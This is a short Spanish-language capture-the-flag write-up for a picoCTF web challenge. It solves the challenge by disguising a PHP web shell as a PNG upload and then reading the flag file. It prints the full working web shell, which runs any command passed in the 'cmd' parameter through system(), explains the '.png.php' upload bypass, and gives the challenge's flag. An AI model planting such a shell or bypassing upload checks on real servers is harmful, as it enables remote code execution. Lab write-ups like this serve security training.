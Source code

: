## Descripción
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:49318/)!

## Solución
Al abrir la página se tiene una webapp para subir imagenes y se valida su tipo en hexadecimal
Al buscar robots.txt se aprecia que se tiene una sección de uploads donde están todos los archivos subidos
Para esto se prepara un input de web shell obtenido de internet con php
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
Se convierte en .png.php y se sube
Se abre en uploads el archivo subido
Se hace cat al archivo GNTDOMBWGIZDE.txt y se obtiene la bandera

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
```
